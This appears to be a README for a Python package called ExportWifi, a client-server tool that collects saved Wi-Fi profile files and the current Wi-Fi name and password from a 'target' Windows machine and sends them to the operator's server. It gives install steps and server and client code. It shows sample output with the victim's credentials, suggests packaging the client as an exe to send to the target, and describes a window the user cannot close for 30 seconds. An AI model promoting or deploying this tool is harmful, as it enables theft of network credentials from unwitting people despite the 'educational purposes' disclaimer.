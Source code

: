 ExportWifi
==========

Created by: Fawaz Bashiru

This a module which imports WI-FI files and detects the current WI-FI name and the current WI-FI password of the target. Every imported file is going to be saved in the directory where your server is located.

To install ExportWifi simply type:

`pip install ExportWifi`

In your Terminal

HOW DOES ExportWifi WORK?
-------------------------
The ip address and the port number should be the same so the connection will work


For Example:
============

Server
-----
````python
import ExportWifi as wifi

server = wifi.WlanServer("127.0.0.1", 1234)
server.start()
````

Client
------
````python
import ExportWifi as wifi

client = wifi.WlanClient("127.0.0.1", 1234)
client.start()
````

The User can't stop tkinter for 30 seconds and is forced to fill everything 
All the Wi-Fi Files will be saved to your directory where the server is located

Output of Server
---------------
````commandline
Waiting for connection....
Connection with ('127.0.0.1', 53343)

Connection has been established
6 Wifi files have been saved to your directory
The current WI-FI and Password of the target is 

WI-FI: ********* The Wi-Fi of the target will be here 
Password: ******* The password of the target will be here
````


Additional
----------
* You can send "client.py" as an exe file to the target with "auto-py-to-exe"

* ExportWifi is very easy to use.

* The server can be used for any OS. The target can only have a Windows OS

* DO NOT USE THIS TO ATTACK SOMEONE FOREIGN. I BUILD IT FOR EDUCATIONAL PURPOSES.